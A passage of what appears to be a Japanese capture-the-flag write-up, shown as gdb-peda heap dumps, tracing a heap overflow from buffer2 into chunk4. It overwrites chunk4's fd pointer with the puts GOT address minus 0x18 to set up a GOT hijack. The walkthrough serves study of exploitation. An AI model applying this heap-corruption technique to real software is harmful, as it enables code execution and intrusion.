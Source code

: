     0xdb40c0:	0x0000000000000000	0x0000000000000000
    0xdb40d0:	0x0000000000000000	0x0000000000000000
    0xdb40e0:	0x0000000000000000	0x0000000000000041 <- chunk4
    0xdb40f0:	0x0000000000609b88	0x0000000000db4060
    0xdb4100:	0x0000000000000000	0x0000000000000000
    0xdb4110:	0x0000000000000000	0x0000000000000000
    0xdb4120:	0x0000000000000040	0x0000000000000042 <- chunk5
    0xdb4130:	0x0034726566667562	0x0000000000000000 <- buffer4
    0xdb4140:	0x0000000000000000	0x0000000000000000
    0xdb4150:	0x0000000000000000	0x0000000000000000
    0xdb4160:	0x0000000000000000	0x0000000000000e51
    0xdb4170:	0x0000000000000000	0x0000000000000000
    0xdb4180:	0x0000000000000000	0x0000000000000000
    gdb-peda$ x/8gx 0x0000000000609b88
    0x609b88 <_gm_+200>:	0x0000000000609b78	0x0000000000609b78 <- top
    0x609b98 <_gm_+216>:	0x0000000000db4060	0x0000000000db40e0
    0x609ba8 <_gm_+232>:	0x0000000000609b98	0x0000000000609b98
    0x609bb8 <_gm_+248>:	0x0000000000609ba8	0x0000000000609ba8

次に buffer2 を通して chunk4 の `fd` を `puts` の GOT から 0x18 を引いた値に書き換えて,

    gdb-peda$ x/50gx 0x00db4000
    0xdb4000:	0x0000000000000000	0x0000000000000023
    0xdb4010:	0x0a70616e73657761	0x0000000000000000
    0xdb4020:	0x0000000000000000	0x0000000000000043 <- chunk1
    0xdb4030:	0x0030726566667562	0x0000000000000000 <- buffer0
    0xdb4040:	0x0000000000000000	0x0000000000000000
    0xdb4050:	0x0000000000000000	0x0000000000000000
    0xdb4060:	0x0000000000000000	0x0000000000000041 <- chunk2
    0xdb4070:	0x0000000000db40e0	0x0000000000609b88
    0xdb4080:	0x0000000000000000	0x0000000000000000
    0xdb4090:	0x0000000000000000	0x0000000000000000
    0xdb40a0:	0x0000000000000040	0x0000000000000042 <- chunk3
    0xdb40b0:	0x4141414141414141	0x4141414141414141 <- buffer2
    0xdb40c0:	0x4141414141414141	0x4141414141414141
    0xdb40d0:	0x4141414141414141	0x4141414141414141
    0xdb40e0:	0x4141414141414141	0x0000000000000041 <- chunk4
    0xdb40f0:	0x0000000000609940	0x0000000000db4060
    0xdb4100:	0x0000000000000000	0x0000000000000000
    0xdb4110:	0x0000000000000000	0x0000000000000000
    0xdb4120:	0x0000000000000040	0x0000000000000042 <- chunk5
    0xdb4130:	0x0034726566667562	0x0000000000000000 <- buffer4
    0xdb4140:	0x0000000000000000	0x0000000000000000
    0xdb4150:	0x0000000000000000	0x0000000000000000
    0xdb4160:	0x0000000000000000	0x0000000000000e51
    0xdb4170:	0x0000000000000000	0x0000000000000000
    0xdb4180:	0x0000000000000000	0x0000000000000000
    gdb-peda$ x/8gx 0x0000000000609940
    0x609940:	0x00007f6fb21795f0	0x0000000000400ab6
    0x609950:	0x0000000000400ac6	0x00007f6fb1e2a110 <- puts_got
    0x609960:	0x00007f6fb1e41d10	0x0000000000400af6
    0x609970:	0x00007f6fb1e10e00	0x00007f6fb1e459c0
